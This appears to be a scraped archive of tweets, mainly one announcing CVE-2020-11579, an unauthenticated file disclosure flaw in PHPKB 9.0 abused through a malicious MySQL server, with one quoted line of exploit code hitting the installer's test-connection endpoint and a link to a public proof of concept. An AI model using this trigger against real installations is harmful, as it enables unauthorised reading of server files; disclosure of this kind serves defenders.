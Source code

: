 <td><img src="pictures/http+++pbs.twimg.com+media+Eet-QklXsAAWYgz.png" alt="http://pbs.twimg.com/media/Eet-QklXsAAWYgz.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1291187268846096384 _at 2020-08-06 01:40:08_**
<blockquote>
CVE-2020-11579 PHPKB 9.0 Enterprise Edition (MySQL database) unauthenticated arbitrary file disclosure via a malicious MySQL Server.

trigger_fe = requests.get("{}/installer/include/test-connection.php?mys={}:{}&amp;myu=test&amp;myp=test&amp;myd=test"

https://t.co/9LKtly8vsx
</blockquote>

* https://github.com/ShielderSec/CVE-2020-11579

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---